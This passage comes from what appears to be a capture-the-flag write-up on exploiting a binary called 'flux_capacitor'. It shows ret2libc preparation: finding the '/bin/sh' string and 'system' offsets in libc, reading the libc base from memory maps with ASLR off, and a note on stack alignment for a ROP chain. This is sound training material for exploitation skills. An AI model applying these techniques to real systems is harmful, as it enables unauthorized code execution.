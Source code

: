 ```bash
$ ldd flux_capacitor
linux-vdso.so.1 (0x00007ffff7fc9000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff7dcc000)
/lib64/ld-linux-x86-64.so.2 (0x00007ffff7fcb000)

$ strings -a -t x /usr/lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh
196031 /bin/sh

gef➤ x/s 0x7ffff7dcc000 + 0x196031
0x7ffff7f62031: "/bin/sh"
```

<div class="box-note">
The binary to be exploited is provided together with the <code>libc.so.6</code> library, that would be present on the target machine, in case we need to search any gadgets or offsets.
</div>

Next we need to locate the address of the `system` function:

```bash
$ readelf -s /usr/lib/x86_64-linux-gnu/libc.so.6 | grep system
1023: 000000000004c330 45 FUNC WEAK DEFAULT 16 system@@GLIBC_2.2.5

gef➤ x/5i 0x00007ffff7dcc000 + 0x4c330
0x7ffff7e18330 <__libc_system>: test rdi,rdi
0x7ffff7e18333 <__libc_system+3>: je 0x7ffff7e18340 <__libc_system+16>
0x7ffff7e18335 <__libc_system+5>: jmp 0x7ffff7e17ec0 <do_system>
```

Finally, we need the base address of `libc.so.6`. The offsets discovered above will be added to this address where the `libc.so.6` will be loaded dynamically. Since ASLR is disabled for now, this address will be the same every time that we run the vulnerable program and can be found by examining the process’s memory allocation:

```asm
gef➤  vmmap 
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /mnt/hgfs/CTF-oct-23/pwn_flux_capacitor/flux_capacitor
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /mnt/hgfs/CTF-oct-23/pwn_flux_capacitor/flux_capacitor
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /mnt/hgfs/CTF-oct-23/pwn_flux_capacitor/flux_capacitor
0x00007ffff7dc9000 0x00007ffff7dcc000 0x0000000000000000 rw- 
0x00007ffff7dcc000 0x00007ffff7df2000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/libc.so.6
0x00007ffff7df2000 0x00007ffff7f47000 0x0000000000026000 r-x /usr/lib/x86_64-linux-gnu/libc.so.6
0x00007ffff7f47000 0x00007ffff7f9a000 0x000000000017b000 r-- /usr/lib/x86_64-linux-gnu/libc.so.6
0x00007ffff7f9a000 0x00007ffff7f9e000 0x00000000001ce000 r-- /usr/lib/x86_64-linux-gnu/libc.so.6
0x00007ffff7f9e000 0x00007ffff7fa0000 0x00000000001d2000 rw- /usr/lib/x86_64-linux-gnu/libc.so.6
```

<div class="box-note">
The 64 bit calling convention requires the stack to be 16-byte aligned before a <code>call</code> instruction but this is easily violated during ROP chain execution. To work around this, we might need one or a couple of ROP NOPs instructions (i.e. addresses of RET instructions). </div>
